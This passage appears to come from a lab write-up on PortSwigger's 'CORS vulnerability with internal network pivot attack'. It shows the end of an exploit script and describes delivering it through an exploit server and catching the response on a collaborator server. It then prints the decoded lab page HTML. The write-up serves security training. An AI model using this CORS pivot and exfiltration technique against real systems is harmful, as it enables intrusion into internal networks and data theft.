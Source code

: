 ```js
				}
			})
		}
	</script>
</html>
```

**Deliver the exploit to victim with the help of exploit server** - 
![[cors32.png]]

**Here we got a response in our collaborator server** - 
![[cors33.png]]
As you can see above, there we got a response from vulnerable endpoint.

**After decoding the URL encoded response with the help of burp Decoder, we got some information about what the vulnerable website is** - 
```js
<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>CORS vulnerability with internal network pivot attack</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>CORS vulnerability with internal network pivot attack</h2>
                            <a id='exploit-link' class='button' target='_blank' href='http://exploit-0ae000a103ac59c0843626cb010a0009.exploit-server.net'>Go to exploit server</a>
                            <a class=link-back href='https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
```